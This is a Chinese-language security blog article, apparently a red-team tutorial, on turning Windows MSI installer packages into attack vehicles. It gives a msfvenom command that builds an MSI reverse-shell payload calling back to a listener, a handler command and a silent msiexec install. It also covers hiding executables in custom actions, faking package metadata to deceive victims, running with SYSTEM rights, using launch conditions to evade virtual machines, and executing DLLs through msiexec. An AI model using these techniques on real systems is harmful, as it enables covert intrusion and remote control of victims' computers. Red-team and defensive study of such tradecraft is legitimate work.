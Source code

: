 #  msi的简单使用

[ 合天网安实验室 ](javascript:void\(0\);)

**合天网安实验室** ![]()

微信号 hee_tian

功能介绍 为广大信息安全爱好者提供有价值的文章推送服务！

____

___发表于_

收录于合集

以下文章来源于红队蓝军 ，作者ziansec

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM7W04OGRgUkYHeWtkjjOCGraSXgV6UN8Ia8axnRtFtX6w/0)
**红队蓝军** .

一群热爱网络安全的人，知其黑，守其白。不限于红蓝对抗，web，内网，二进制。

## 前言

Windows Installer 使用安装包，其中包含 Windows Installer 需要安装、卸载或修复产品以及运行安装程序用户界面 (UI)
的信息。每个安装包都包含一个.msi文件，该文件包含安装数据库、摘要信息流和安装的各个部分的数据流。

## msf

直接加载msf的msi上线

    
    
    msfvenom -a x64 -p windows/x64/shell/reverse_tcp LHOST=192.168.11.1 LPORT=8888 -f msi -o 1.msi  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230216085826.png)

    
    
    handler -p windows/x64/shell/reverse_tcp -H 0.0.0.0 -P 8888  
          
    msiexec /q /i 1.msi  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230216085842.png)![](https://gitee.com/fuli009/images/raw/master/public/20230216085843.png)

## vs

下载扩展

![](https://gitee.com/fuli009/images/raw/master/public/20230216085845.png)

搜索创建msi文件即可

![](https://gitee.com/fuli009/images/raw/master/public/20230216085847.png)

利用文件系统和自定义操作选项，可以设置将在目标主机上释放的文件和执行的命令

![](https://gitee.com/fuli009/images/raw/master/public/20230216085849.png)

点击项目输出

![](https://gitee.com/fuli009/images/raw/master/public/20230216085850.png)

打包exe进msi

![](https://gitee.com/fuli009/images/raw/master/public/20230216085851.png)

可以添加图标

![](https://gitee.com/fuli009/images/raw/master/public/20230216085853.png)![](https://gitee.com/fuli009/images/raw/master/public/20230216085854.png)![](https://gitee.com/fuli009/images/raw/master/public/20230216085857.png)

创建快捷方式

![](https://gitee.com/fuli009/images/raw/master/public/20230216085858.png)![](https://gitee.com/fuli009/images/raw/master/public/20230216085902.png)

在扩展中可以对安装包的属性进行设置，部分属性会在msi文件的详细信息中体现，所以可以对属性进行一些伪造欺骗

![](https://gitee.com/fuli009/images/raw/master/public/20230216085904.png)

如果选择True时，在管理员权限下msiexec会使用SYSTEM权限执行安装:

![](https://gitee.com/fuli009/images/raw/master/public/20230216085905.png)

## 启动条件

点击view->启动条件

![](https://gitee.com/fuli009/images/raw/master/public/20230216085906.png)

可以设置硬件属性中的内存、分辨率来检测是否在虚拟机里启动

![](https://gitee.com/fuli009/images/raw/master/public/20230216085907.png)

比如这里要求物理内存必须大于多少字节才启动安装包

![](https://gitee.com/fuli009/images/raw/master/public/20230216085909.png)

可以通过`orca.exe`来查看其他软件的启动条件设置，下载链接：https://learn.microsoft.com/en-
us/windows/win32/msi/orca-exe

![](https://gitee.com/fuli009/images/raw/master/public/20230216085910.png)

常见的判断条件可参考：https://community.flexera.com/t5/InstallShield-Knowledge-
Base/Common-MSI-Conditions/ta-p/3854

![](https://gitee.com/fuli009/images/raw/master/public/20230216085911.png)

在安装时可以使用`msiexec /q /i MsiexecSetup.msi /log
123.log`方式输出日志文件，通过对比日志文件进行更详细的条件设置

![](https://gitee.com/fuli009/images/raw/master/public/20230216085915.png)

## 打包exe/二进制文件

MSI安装包中可以添加exe、dll、vbs、js类型二进制文件或脚本。常用操作是通过文件系统管理添加要执行的文件，然后在自定义操作中设置在几个阶段要执行的文件，文件释放位置可以使用系统文件夹属性变量

![](https://gitee.com/fuli009/images/raw/master/public/20230216085916.png)![](https://gitee.com/fuli009/images/raw/master/public/20230216085917.png)![](https://gitee.com/fuli009/images/raw/master/public/20230216085918.png)![](https://gitee.com/fuli009/images/raw/master/public/20230216085920.png)![](https://gitee.com/fuli009/images/raw/master/public/20230216085921.png)

打包安装

![](https://gitee.com/fuli009/images/raw/master/public/20230216085922.png)

## 加载dll

导出函数

    
    
    extern "C" __declspec(dllexport) void DllRegisterServer(HWND hwnd, HINSTANCE hinst)  
    {  
        MessageBoxA(NULL, "1", "DllRegisterServer", MB_OK);  
    };  
      
    extern "C" __declspec(dllexport) void DllUnRegisterServer(HWND hwnd, HINSTANCE hinst)  
    {  
        MessageBoxA(NULL, "2", "DllUnRegisterServer", MB_OK);  
    }  
    

msiexec程序也可以加载DLL执行，前提是DLL文件在磁盘上存在并且是64位的。通过命令行调用DLL中的`DllRegisterServer`或`DllUnRegisterServer`

    
    
    # DllUnRegisterServer  
    msiexec /z C:\windows\tmp\run.dll  
    # DllRegisterServer  
    msiexec /y C:\windows\tmp\run.dll  
    # 执行run.dll文件 DllRegisterServer  
    msiexec /y .\windows\tmp\run  
    # 执行 .dll 文件 DllRegisterServer  
    msiexec /y .\calc.dll  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230216085923.png)
**原创稿件征集**

征集原创技术文章中，欢迎投递

投稿邮箱：edu@antvsion.com

文章类型：黑客极客技术、信息安全热点安全研究分析等安全相关

通过审核并发布能收获200-800元不等的稿酬。

  

[更多详情，点我查看！](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA==&mid=2652885477&idx=1&sn=39e97a60d7b68d19569284654e74ffa1&chksm=bd59ad288a2e243e4d89b7c456fbd44a93d241c881075b342af22431d93dca56e52076ed75ce&scene=21#wechat_redirect)

![](https://gitee.com/fuli009/images/raw/master/public/20230216085925.png)靶场实操，戳“阅读原文“

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

